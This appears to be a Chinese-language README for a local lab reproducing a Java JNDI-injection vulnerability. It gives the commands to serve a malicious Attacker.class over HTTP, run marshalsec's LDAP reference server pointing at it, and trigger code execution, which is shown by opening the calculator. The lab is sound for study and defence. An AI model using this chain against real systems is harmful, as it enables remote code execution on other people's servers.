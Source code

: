 ## 准备

`remote/Attacker.class`使用`Java 1.8.0_292`编译

版本不同的朋友可以自己用`javac Attacker.java`编译

## 复现步骤

复现一共需要启动3个进程，成功触发会打印`Constructor`并自动打开计算器

### 1 攻击者服务

使用`python`托管`Attacker.class`

```
cd remote

python -m http.server 8888
```

### 2 jndi转发

使用`marshalsec`工具转发jndi请求到攻击者服务

```
git clone git@github.com:mbechler/marshalsec.git

cd marshalsec

mvn clean package -DskipTests

java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Attacker"
```

### 3 漏洞触发

使用命令行或IDE运行`src/main/java/LogService.java`


